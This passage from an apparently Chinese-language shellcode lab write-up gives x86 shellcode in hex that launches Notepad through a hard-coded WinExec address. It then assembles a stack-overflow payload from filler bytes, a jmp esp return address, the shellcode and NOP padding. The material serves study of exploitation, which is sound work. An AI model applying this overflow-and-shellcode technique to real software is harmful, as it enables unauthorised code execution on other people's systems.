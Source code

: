 代码对应00401062-00401088，**下图中的地址有所变化**。

![image-20221016210350253](2022-10-15-shellcode%E5%AE%9E%E9%AA%8C/image-20221016210350253.png)

对应十六进制表示：

```
6A 74 68 65 2E 74 78 68 6C 63 6F 64 68 73 68 65 6C 68 70 61 64 20 68 6E 6F 74 65 8B F4 6A 05 56 B8 20 46 0A 76 FF D0
```

构造payload，22B 任意数据 + 4B jmp esp地址 + 39B shellcode + 15B NOP：

```
30 30 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 07 F2 FE 76 6A 74 68 65 2E 74 78 68 6C 63 6F 64 68 73 68 65 6C 68 70 61 64 20 68 6E 6F 74 65 8B F4 6A 05 56 B8 20 46 0A 76 FF D0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
```

![image-20221017005653366](2022-10-15-shellcode%E5%AE%9E%E9%AA%8C/image-20221017005653366.png)

在ida中粘贴为调用参数：

![image-20221016211902750](2022-10-15-shellcode%E5%AE%9E%E9%AA%8C/image-20221016211902750.png)
